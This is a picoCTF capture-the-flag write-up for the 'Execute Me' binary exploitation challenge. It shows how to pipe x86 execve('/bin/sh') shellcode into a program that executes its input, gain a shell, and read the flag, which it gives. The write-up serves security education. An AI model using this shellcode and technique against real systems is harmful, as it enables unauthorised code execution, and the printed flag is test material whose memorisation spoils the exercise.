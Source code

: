 ## Execute Me - 80 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-09 13:07:47

Last modified: 2014-11-09 23:02:57


Created: 2014-11-09 13:07:47

Last modified: 2014-11-09 23:02:50


Created: 2014-11-09 13:07:47

Last modified: 2014-11-09 23:02:45


Created: 2014-11-09 13:07:47

Last modified: 2014-11-09 23:01:35


### Problem ###

This program will run whatever you send to it! Try to get the flag! The binary can be found at `/home/execute/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/ExecuteMe/execute.c).

### Hint ###

You can get the flag in a number of ways, but the easiest would be to run a shell.

## Answer ##

### Overview ###

Use the program to execute some shellcode.

### Details ###

Let's start by running the program on the server. When we run it and enter `/bin/sh` the following appears:

```bash
pico89244@shell:~$ cd /home/execute/
pico89244@shell:/home/execute$ ./execute
/bin/sh
Segmentation fault (core dumped)
pico89244@shell:/home/execute$
```

Huh, that's not good. Looking a little closer at the code we see this:
```c
read(0, buf, 128);
((function_ptr)buf)();
```
So the program reads in our buffer and executes it. However, it is not executing the buffer as we would expect, with the `system()` command to run a command in the shell. Instead, it is executing the **assembly commands** that we put in the buffer. The hint tells us to run a shell, so we should use `shellcode`. Shellcode typically is in the form of a bunch of hex values that can be executed to perform a function such as running `cat` or `/bin/sh`. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run `execve("/bin/sh")`
```bash
pico89244@shell:/home/execute$ ./execute
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
pico89244@shell:/home/execute$

```
Huh, that still didn't work. Our next task is to `pipe` the hex values into the program instead of type them in. Right now, the program interprets `\x31`as 4 separate ascii values instead of ascii value `0x31` (or 49 in base 10). To do this we can use Python:
```bash
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") | ./execute
pico89244@shell:/home/execute$
```
This uses Python to print our hex characters into the program. Note the use of a `"` to encapsulate the Python code  and the `'` to encapsulate the `print` command. This time, we get no error but still no shell! The shell is successfully running with this shellcode but is exiting before we can input anything into it. The final step here is to add a `cat` to the end of our Python command, which prevents this.
```
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
whoami
pico89244
cat flag.txt
shellcode_is_kinda_cool
```
Our shell runs successfully and we get our flag!
### Flag ###

    shellcode_is_kinda_cool
